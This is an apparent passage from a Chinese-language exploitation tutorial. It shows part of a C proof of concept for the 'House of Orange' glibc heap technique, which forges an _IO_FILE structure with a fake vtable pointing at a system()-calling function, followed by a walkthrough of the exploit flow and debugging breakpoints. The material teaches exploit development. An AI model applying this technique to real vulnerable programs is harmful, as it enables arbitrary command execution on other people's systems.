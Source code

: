 ```
    _IO_FILE *fp = (_IO_FILE *) top;

    fp->_mode = 0; 
    fp->_IO_write_base = (char *) 2;
    fp->_IO_write_ptr = (char *) 3; 


    // 设置虚表
    size_t *jump_table = &top[12]; // controlled memory
    jump_table[3] = (size_t) &winner;
    *(size_t *) ((size_t) fp + sizeof(_IO_FILE)) = (size_t) jump_table; // top+0xd8

    // 再次 malloc, fastbin, smallbin都找不到需要的大小，会遍历 unsort bin 把它们添加到对应的 bins 中去
    // 之前已经把 top->bk 设置为 io_list_all - 0x10, 所以会把 io_list_all 的值 设置为 fd, 
    // 也就是 main_arena+88 
    // _IO_FILE_plus + 0x68 --> _china , main_arena+88 + 0x68 为 smallbin[5], 块大小为 0x60 
    // 所以要把 top的 size 设置为 0x60
    malloc(10);

    return 0;
}

int winner(char *ptr)
{ 
    system(ptr);
    return 0;
}


```



代码的流程如下:
- 首先分配 `0x400` 字节的块
- 修改 `top chunk` 的 `size` 域为 `0xc01`
- `malloc(0x1000)` 触发 `_int_free` , `top` 被放到了 `unsorted bin` , 下面称它为 `old_top`
- 布局 `old_top` , 设置 `bk = io_list_all - 0x10 ` ， 把`old_top`伪造成一个 `_IO_FILE_plus`,并设置好`vtable`
- `malloc(10)` 由于此时 `fastbin` , `smallbin` 均为空，所以会进入遍历 `unsorted bin` ，并根据相应的大小放到对应的 `bin` 中。上一步设置 `old_top` 大小为 `0x60` ， 所以在放置`old_top` 过程中，先通过  `unsorted bin attack` 修改 `io_list_all` 为 `fd也就是 main_arena->top` ， 然后 `old_top` 会被链到 `smallbin[5]` （大小为 0x60 ）, 接着继续遍历 `unsorted bin `，这一步 会 `abort`,原理下面说， 然后会遍历 `io_list_all` 调用 ` _IO_OVERFLOW (fp, EOF) `. 伪造 `vtable`  getshell。

**下面调试分析之**

参考断点：

```
break main
bp genops.c:775
bp  malloc.c:3472
```
调试到
